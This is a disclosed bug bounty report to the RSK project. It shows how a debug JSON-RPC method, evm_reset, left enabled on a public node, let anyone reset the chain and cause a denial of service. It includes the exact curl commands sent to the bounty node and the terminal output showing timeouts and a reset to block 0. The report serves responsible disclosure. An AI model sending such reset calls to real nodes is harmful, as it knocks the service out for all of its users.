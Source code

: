 # JSON RPC methods for debugging enabled by default allow DoS

## Report Details
- **Report ID**: 324021
- **URL**: https://hackerone.com/reports/324021
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-03-09T23:59:41.881Z
- **Disclosed**: 2023-02-27T18:27:22.912Z

## Reporter
- **Username**: teknogeek
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rootstocklabs

## Vulnerability Information
**Summary:** Upon sending the JSON-RPC the `evm_reset` command, the RPC server hung, has gone slow, and is now on block 0.

**Description:** While testing the bounty RPC node, I was sending a variety of available commands I noticed in the source code. After sending the `evm_reset` command, the server hung, began responding slowly, started returning `504 Gateway Time-out`'s, and is now synced to block 0.

## Steps To Reproduce:

1. Run `curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"eth_blockNumber", "params": {}, "id":1337}' https://bounty-node.rsk.co` and observe the block number
2. Run `curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"evm_reset", "params": {}, "id":1337}' https://bounty-node.rsk.co`
3. Response should hang

## Supporting Material/References:
Below are snippets from my terminal session while I discovered this issue:

```
# teknogeek at teknogeek-mbp in ~/Documents/BugBounties/HackerOne/RSK/rskj on git:6e45eaf6 ✖︎ [18:14:19]
→ curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"eth_blockNumber", "params": [], "id":1337}' https://bounty-node.rsk.co
{"jsonrpc":"2.0","id":1337,"result":"0x437ca"}

# teknogeek at teknogeek-mbp in ~/Documents/BugBounties/HackerOne/RSK/rskj on git:6e45eaf6 ✖︎ [18:29:37]
→ curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"evm_snapshot", "params": {}, "id":666}' https://bounty-node.rsk.co
{"jsonrpc":"2.0","id":666,"result":"0x1"}

# teknogeek at teknogeek-mbp in ~/Documents/BugBounties/HackerOne/RSK/rskj on git:6e45eaf6 ✖︎ [18:35:46]
→ curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"evm_snapshot", "params": {}, "id":666}' https://bounty-node.rsk.co
{"jsonrpc":"2.0","id":666,"result":"0x2"}

# teknogeek at teknogeek-mbp in ~/Documents/BugBounties/HackerOne/RSK/rskj on git:6e45eaf6 ✖︎ [18:35:52]
→ curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"evm_reset", "params": {}, "id":666}' https://bounty-node.rsk.co


^C
# teknogeek at teknogeek-mbp in ~ [18:41:34]
→ curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"web3_clientVersion", "params": {}, "id":1337}' https://bounty-node.rsk.co
{"jsonrpc":"2.0","id":1337,"result":"RskJ/0.4.0/Linux/Java1.8/BAMBOO-1192882"}

# teknogeek at teknogeek-mbp in ~ [18:41:37]
→ curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"web3_clientVersion", "params": {}, "id":1337}' https://bounty-node.rsk.co
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx</center>
</body>
</html>

# teknogeek at teknogeek-mbp in ~ [18:45:27]
→ curl -s -X POST -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","method":"eth_blockNumber", "params": [], "id":1337}' https://bounty-node.rsk.co
{"jsonrpc":"2.0","id":1337,"result":"0x0"}
```

I also tested from multiple locations (VPS and locally) to confirm that this was not just a IP blacklist or connectivity issue on my end.

## Impact

Loss of service and responsiveness to all users

## Attachments
No attachments
